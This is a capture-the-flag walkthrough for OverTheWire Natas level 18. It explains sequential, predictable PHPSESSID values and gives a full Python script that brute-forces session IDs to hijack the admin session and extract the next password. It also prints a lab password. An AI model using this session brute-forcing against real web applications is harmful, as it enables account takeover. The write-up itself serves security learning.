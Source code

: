 # 🔐 Natas18 Walkthrough
In this level, we're asked to log in as an admin user. When we look at the [view sourcecode]() we quickly see that there isn't an sql injection vunerability like the previous levels. Instead, the vunerability lies in ***session management.***

## 🔍 What is session management?
Http sites are stateless, meaning that each user gets their own session. Here we "simply" need to get access to the admin's session via ***PHPSESSID***. When we log in with arbitrary credentials, the site sets a ***PHPSESSID*** cookie. By experimenting, we can see that: 

- Each login attempt generates a numeric PHPSESSID stored in the storage tab in the developer tools.
- These IDs are assigned sequentially (1, 2, 3, ...).
- The application store wheter a session belong to `admin` or another user, **based solely on the PHPSESSID value.**

```php
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
```

This means we can brute-forfce possible PHPSESSID values until we find one that belongs to an **admin's** session.

## 🛠️ Attack stategy

The sourcecode hints the maximum value of the ***PHPSESSID***:

```php
$maxid = 640; // 640 should be enough for everyone
```

1. Loop over all possible PHP SESSID values (1-640). 
2. For each one, send a request with that sessiod ID in the cookie.
3. Check the response - if it contains `"You are an admin"` - (via the sourcode aswell), then we've found the correct PHPSESSID.
4. The password for natas19 should be displayed on the page after you connect to an admin's session so we'll extract it from the website automatically too.

## 🤖 The script

Here's the script to brute-force the session IDs:

```python
import requests, re, time, sys

# =======================
# === STYLING HELPERS ===
# =======================
GREEN = "\033[92m"
RED = "\033[91m"
YELLOW = "\033[93m"
CYAN = "\033[96m"
RESET = "\033[0m"

def log_info(message):
    print(f"{CYAN}[*] {message}{RESET}")

def log_success(message):
    print(f"{GREEN}[+] {message}{RESET}")


def log_progress_inline(message, color=CYAN):
    sys.stdout.write(f"\r{YELLOW}{message}{RESET}")
    sys.stdout.flush()

def log_found_inline(message):
    sys.stdout.write(f"\r{YELLOW}{message}{RESET}\n")
    sys.stdout.flush()


# =======================

# === CONFIG ===
url = "http://natas18.natas.labs.overthewire.org/"
username = "natas18"
natas18_password = "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ"
phpsesidMax = 640
phpsesidMin = 1
# =============

log_info("Starting brute-force on natas18...")

for sesID in range(phpsesidMin, phpsesidMax + 1):
    # Show inline progress
    log_progress_inline(f"Trying PHPSESSID={sesID}")

    cookies = {"PHPSESSID": str(sesID)}
    response = requests.get(url, cookies=cookies, auth=(username, natas18_password))

    if "You are an admin" in response.text:
        # Extract password
        match = re.search(r"Password:\s*(\S+)", response.text)
        if match:
            password = match.group(1)
            log_found_inline(f"Admin session found! PHPSESSID={sesID}")
            log_success(f"Natas19 password: {password}")
            break
```

The script cycles through all possible PHPSESSID values (1-640). Once it finds the admin session, the servers responds with:
```
You are an admin. The password for natas19 is: <PASSWORD>
```

Copy the console output and let's get to the next level. (:
